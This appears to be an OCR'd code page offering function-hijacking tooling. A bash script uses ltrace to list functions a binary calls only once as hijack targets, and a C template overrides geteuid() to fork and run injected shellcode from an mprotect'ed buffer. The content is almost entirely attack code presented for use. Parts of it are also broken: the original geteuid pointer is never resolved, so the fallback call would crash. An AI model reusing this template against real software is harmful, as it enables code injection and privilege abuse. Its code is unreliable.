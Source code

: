 Here's a script to trace function calls and find non-repeated ones:

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
    echo "Usage: $0 <binary>"
    exit 1
fi

BINARY=$1

# Run ltrace and capture function calls
ltrace -c ./$BINARY 2>&1 | awk '/^[^ ]/ {print $1}' | sort | uniq -c | sort -n | tee ltrace_output.txt

# Display potential hijackable functions (called only once)
echo "Functions called only once:"
awk '$1 == 1 {print $2}' ltrace_output.txt
```

### Boilerplate C Code for Hijacking

Here's some boilerplate C code that uses `fork()` and includes a place for adding shellcode. We'll use `geteuid()` as an example target function.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <errno.h>

int (*old_geteuid)(void);

void run_shellcode() {
    unsigned char shellcode[] = {
        /* Add your shellcode here */
    };

    intptr_t pagesize = sysconf(_SC_PAGESIZE);
    if (mprotect((void *)((intptr_t)shellcode & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC) != 0) {
        perror("mprotect");
        return;
    }

    int (*ret)() = (int(*)())shellcode;
    ret();
}

int geteuid() {
    if (fork() == 0) {
        run_shellcode();
        _exit(0); // Exit child process after running shellcode
    } else {
        wait(NULL); // Wait for child process to finish
        printf("HACK: returning from function...\n");
        return old_geteuid();
    }
}

```